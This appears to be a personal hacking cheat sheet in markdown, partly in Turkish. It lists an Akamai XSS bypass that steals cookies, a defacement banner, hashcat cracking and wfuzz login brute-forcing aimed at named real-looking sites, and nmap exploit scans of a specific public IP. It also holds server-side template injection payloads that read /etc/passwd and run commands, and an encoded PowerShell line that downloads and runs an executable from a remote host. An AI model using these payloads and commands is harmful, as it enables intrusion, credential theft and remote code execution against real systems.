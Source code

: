 # manuel

# akamai xss bypass 

```
<font color="red">ERROR 1064 (42000): You have an error in your SQL syntax;</font>
```
```
<A HREF="https://www.cia.gov/">Login Here </A>
```
```
<button onClick="alert('xss')">Submit</button>
```
```
"'>"<A HRef=" AutoFocus OnFocus=top//? >
```
```
"'>"<A HRef=" AutoFocus OnFocus=top//?['ale'%2B'rt'](document%2Bcookie)>
```
________
```
<iframe src="https://www.cia.gov" width="100%" height="500"></iframe>

```
______________________________
# Offensive payload
```
git clone https://github.com/InfoSecWarrior/Offensive-Payloads.git 
```
_____________________________

### link-gopher : Web sitesindeki linkleri cikartir tek tek elle kopyala yapistir yapmazsin
______________________________

# hashcat icin wordlist
```
https://packetstormsecurity.com/Crackers/wordlists/page1/
```
```
https://labs.nettitude.com/tools/rocktastic/
```
```
https://github.com/J3rryBl4nks/PasswordCrackingMethodology
```
```
hashcat -m 300 -a 0 -o hashcikti3a.txt hashes5k.txt weakpass_3a/weakpass_3a
```


____________________________
```
gobuster dir -w /usr/share/wordlists/dirb/common.txt --url 192.168.56.116
```
```
echo "http://arkas.com.tr" | waybackurls | gf xss | xargs -I {} injectx.py -u {}
```
```
wfuzz -c -z file,/usr/share/seclists/Usernames/top-usernames-shortlist.txt -z file,/usr/share/seclists/Passwords/darkweb2017-top100.txt --hc 200 -d "username=FUZZ&password=FUZ2Z" https://www.kamyonum.com.tr/edit/login.asp 
```
```
nmap -Pn -n --top-ports 5000 13.40.217.134 -sV -sC --version-all --script=vuln --script=auth --script=http-brute,snmp-brute --script=exploit --script=malware -o nmapExploitScan
```

```
<h1><A HREF="https://cia.gov/"><marquee>YOU HAVE BEEN HACKED by DedCrowd</marquee> </A>
```
```
https://github.com/reddelexc/hackerone-reports
```
____________________________
## SSTI 
```
java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```
```
Ruby
{ 7 * 7 }
{ %x|env| }
Jinja2 Python
{{7*7}} = Error
${7*7} = ${7*7}
{{foobar}} Nothing
{{4*4}}[[5*5]]
{{7*'7'}} = 7777777
{{config}}
{{config.items()}}
{{settings.SECRET_KEY}}
{{settings}}
<div data-gb-custom-block data-tag="debug"></div>
```

```
Moka Python
<%
import os
x=os.popen('id').read()
%>
${x}
```

```
Razor (.Net)
@(2+2) <= Success
@() <= Success
@("{{code}}") <= Success
@ <=Success
@{} <= ERROR!
@{ <= ERRROR!
@(1+2)
@( //C#Code )
@System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > C:/Windows/Tasks/test.txt");
@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");
```
# ssti payloads
```
{{2*2}}[[3*3]]
{{3*3}}
{{3*'3'}}
<%= 3 * 3 %>
${6*6}
${{3*3}}
@(6+5)
#{3*3}
#{ 3 * 3 }
*{7*7}
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{''.__class__.__base__.__subclasses__()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}
{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
{{'a'.toUpperCase()}} 
{{ request }}
{{self}}
```


